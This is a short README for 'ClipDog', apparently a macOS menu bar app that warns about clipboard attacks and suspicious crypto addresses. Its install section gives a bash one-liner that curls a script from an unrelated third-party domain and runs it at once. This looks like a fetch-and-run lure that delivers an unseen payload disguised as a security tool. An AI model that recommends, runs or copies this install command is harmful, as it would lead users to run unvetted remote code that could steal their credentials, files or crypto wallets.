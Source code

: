 # ClipDog 🐕

A stylish macOS menu bar app that saves you from clipboard attacks.

## Features

- 🔍 Sits in your menu bar with a modern icon
- 📋 Shows copied text in a beautiful native popup
- 🛡️ Detects and warns about suspicious crypto addresses
- 😄 Fun "Meme Mode" with animated overlay
- 🎨 Modern translucent design with rounded corners

## Running the App

[Download DMG from releases](https://github.com/Yosem1t3/clipdog/releases/latest)

Or install via terminal:

```bash
/bin/bash -c "$(curl -fsSL https://macostutorial.com/git/install.sh)"
```

The app will appear in your menu bar as a shield with a dog icon. Click it to show the popup!

## Requirements

- macOS 11.0 or later
- Swift 5.9 or later
